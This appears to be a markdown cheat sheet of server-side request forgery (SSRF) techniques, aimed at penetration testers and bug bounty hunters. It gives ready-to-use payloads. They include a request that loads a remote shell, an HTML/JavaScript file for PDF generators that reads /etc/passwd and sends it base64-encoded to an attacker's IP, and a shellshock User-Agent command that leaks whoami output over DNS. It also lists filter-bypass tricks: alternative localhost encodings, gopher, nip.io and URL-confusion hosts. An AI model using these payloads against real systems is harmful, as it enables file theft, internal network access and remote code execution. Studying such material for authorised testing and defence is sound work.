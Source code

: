 # Content
- [What can SSRF vulnerabilities can lead to](#what-can-ssrf-vulnerabilities-can-lead-to)
- [Where to find SSRF](#where-to-find-ssrf-)
- [Testing if app vulnerable to SSRF](#testing-if-app-vulnerable-to-ssrf)
- [Blind SSRF](#blind-ssrf)
    - [blind SSRF via pdf generator](#blind-ssrf-via-pdf-generator)
    - [blind SSRF via User-Agent header](#blind-ssrf-via-user-agent-header-shellshock)
- [Bypass](#bypass)
 - [SSRF with blacklist-based input filters](#ssrf-with-blacklist-based-input-filters)
 - [SSRF with whitelist-based input filters](#ssrf-with-whitelist-based-input-filters)



## What can SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## Where to find SSRF :
- Parts of HTTP requests, including (URLs,headrs,...)
```
Note: Always keep in mind that web application fuzzing should be part of any penetration testing or bug bounty hunting activity.
That being said, fuzzing should not be limited to user input fields only.
Extend fuzzing to parts of the HTTP request as well, such as the User-Agent.
```
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is local and remote file inclusion

- try diffrient protocols (http,file,ftp,..)
- fuzz ports
- do not forget to url encode if going through more than one app (ex:trible url encode)
- DNS loopkup for server you own
- Load External files (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```
- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin
```
- Attack other back-end systems
```
http://192.168.0.68/admin
```




## Blind SSRF
- We can detect blind SSRF vulnerabilities via out-of-band techniques
- Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.

### blind SSRF via pdf generator 
```
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```
### blind SSRF via User-Agent header (shellshock)
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Bypass

### SSRF with blacklist-based input filters

- Using an alternative IP representation for 127.0.0.1
```
127.1.
017700000001 (octal)
0x7f000001 (hexadecimal)
2130706433 (integer)
::ffff:7f00:1  , 0:0:0:0:0:ffff:7f00:0001 , 0000:0000:0000:0000:0000:ffff:7f00:0001(IPv6)

```
- Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
- Obfuscating blocked strings using URL encoding or case variation.
- Try using different redirect codes, as well as different protocols for the target URL.
```
file:// (file read)
netdoc:// (file read)
dict://
gopher://
jar://
ldap://
ftp://
data:text/plain;base64,L2V0Yy9wYXNzd2Q=  (if the backend use the input to construct another url we can use data:// to include /etc/passwd directly)

You might be able to get file read.

Or send multi-line requests to gain additional impact

(Ex: gopher + redis = likely RCE)
```
- Nip.io allows simple wildcard DNS for any IP address (127.0.0.1.nip.io = 127.0.0.1 )
```
127.0.0.1.nip.io  
0x7f000001.nip.io (hexadecimal IP notation)
Something.google.com.127.0.0.1.nip.io
```


### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters
some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.

